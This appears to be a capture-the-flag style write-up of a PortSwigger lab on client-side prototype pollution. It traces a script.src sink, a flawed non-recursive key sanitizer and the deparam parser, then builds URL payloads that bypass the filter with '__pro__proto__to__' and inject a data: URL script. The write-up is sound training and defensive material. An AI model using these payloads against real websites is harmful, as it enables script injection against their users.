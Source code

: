 ```yaml
---
title: PortSwigger - Client-side prototype pollution via flawed sanitization
date: 2025-04-13 09:59:00 -5000
categories: [CTF]
tags: [ctf, web, prototype pollution]     # TAG names should always be lowercase
---
```



This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/0.png)
*Website Landing Page*

<br/>

When looking for Prototype pollution, we need find some logic that that:
1. Parses user supplied JSON
2. Constructs a JavaScript object in a way that prototype pollution can be introduced. This is usually through a merge function like so:

```jsx
for(var attr in source) {
        if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
```

3. The user controlled object needs to end up in an XSS sink.

<br/>

# Finding a Sink

I prefer to search for the sinks in the application and then work my way backwards to see if that source is controllable. When searching through the JavaScript code, the following code block stood out in the `searchLoggerFiltered.js` file.

```jsx
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```

There is a `sink` in `script.src = config.transport_url`. If we are able to control `config.transport_url` then we can get XSS.

<br/>

# Finding the Source

Now that we have the sink, lets work our way backwards to find where the `config.transport_url` is coming from. The `config` value is being set just above with the following code:

```jsx
let config = {params: deparam(new URL(location).searchParams.toString())};
```

<br/>

The `config` object appears to have a key of `params` which has a value from the result of the `deparam()` function which takes the `URLSearchParams` as a parameter. 

```jsx
location.href = "https://example.com/page?name=Josh&age=30"

new URL(location).searchParams.toString()
// returns: "name=Josh&age=30"
```
*This is how the `searchParams` function operates*

<br/>

The `config` only has a `params` key, and we need a `transport_url` key in order to trigger the XSS. 

<br/>

# Debugging

The `deparam` function is quite complex and long so I will use chrome debugging tools along with some payloads to see if prototype pollution is possible.

```jsx
var deparam = function( params, coerce ) {
    var obj = {},
        coerce_types = { 'true': !0, 'false': !1, 'null': null };

    if (!params) {
        return obj;
    }

    params.replace(/\+/g, ' ').split('&').forEach(function(v){
        var param = v.split( '=' ),
            key = decodeURIComponent( param[0] ),
            val,
            cur = obj,
            i = 0,

            keys = key.split( '][' ),
            keys_last = keys.length - 1;

        if ( /\[/.test( keys[0] ) && /\]$/.test( keys[ keys_last ] ) ) {
            keys[ keys_last ] = keys[ keys_last ].replace( /\]$/, '' );

            keys = keys.shift().split('[').concat( keys );

            keys_last = keys.length - 1;
        } else {
            keys_last = 0;
        }

        if ( param.length === 2 ) {
            val = decodeURIComponent( param[1] );

            if ( coerce ) {
                val = val && !isNaN(val) && ((+val + '') === val) ? +val        // number
                    : val === 'undefined'                       ? undefined         // undefined
                        : coerce_types[val] !== undefined           ? coerce_types[val] // true, false, null
                            : val;                                                          // string
            }

            if ( keys_last ) {
                for ( ; i <= keys_last; i++ ) {
                    key = keys[i] === '' ? cur.length : keys[i];
                    cur = cur[sanitizeKey(key)] = i < keys_last
                        ? cur[sanitizeKey(key)] || ( keys[i+1] && isNaN( keys[i+1] ) ? {} : [] )
                        : val;
                }

            } else {
                if ( Object.prototype.toString.call( obj[key] ) === '[object Array]' ) {
                    obj[sanitizeKey(key)].push( val );

                } else if ( {}.hasOwnProperty.call(obj, key) ) {
                    obj[sanitizeKey(key)] = [ obj[key], val ];

                } else {
                    obj[sanitizeKey(key)] = val;
                }
            }

        } else if ( key ) {
            obj[key] = coerce
                ? undefined
                : '';
        }
    });

    return obj;
};
```

<br/>

Sending the following payload:

```jsx
https://web-security-academy.net/?__proto__[transport_url]=test
```

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/1.png)
*You can see that the JSON object is not what we want*

<br/>

Our goal is to have the JSON Object in the form:

```jsx
config = {
	params: "",
	__proto__: {
		transport_url : "data:text/javascript,alert(1)"
	}
}
```

<br/>

Since that didn’t work, lets try dot notation.

```jsx
https://web-security-academy.net/?__proto__.transport_url=test
```

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/2.png)
*You can see that the JSON object is not what we want*

<br/>

In both of these requests that `__proto__` is being stripped. We can try sending a payload that can bypass `__proto__` sanitization if there is no recursive sanitization.
```jsx
https://web-security-academy.net/?__pro__proto__to__.transport_url=test
```

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/3.png)
*`__proto__` is now present, but not in expected form*

<br/>

Lets go back to using object notation.

```jsx
https://web-security-academy.net/?__pro__proto__to__[transport_url]=test
```

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/4.png)
*Prototype is now polluted*

<br/>

# Prototype Pollution

Now that we are able to pollute the prototype, we can be XSS with the following payload:

```jsx
https://web-security-academy.net/?__pro__proto__to__[transport_url]=data:text/javascript,alert(1)
```

![](/assets/portswigger/client-side-prototype-pollution-via-flawed-sanitization/5.png)
